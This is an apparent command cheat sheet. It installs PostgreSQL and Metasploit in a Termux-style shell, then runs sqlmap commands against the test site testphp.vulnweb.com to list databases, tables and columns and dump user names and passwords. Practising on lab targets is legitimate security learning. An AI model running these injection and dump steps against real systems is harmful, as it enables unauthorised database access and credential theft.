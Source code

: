 


apt install postgresql

//install postgresql



mkdir -p $PREFIX/var/lib/postgresql
//install postgresql


initdb $PREFIX/var/lib/postgresql


pg_ctl -D $PREFIX/var/lib/postgresql start


createuser --superuser --pwprompt root


createdb mydb


psql mydb





exit

pkg install unstable-repo


pkg install metasploit




apt install sqlmap

sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -dbs





// database open 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D (database)



//database name 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D &&&& -tables
//tables open
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D **** -T (tables name) -columns
//columns opn
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D **** -T  **** -C &&&&
//columns name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D **** -T **** -C  (columns name) -dump
// (passwor) (user name) dump 
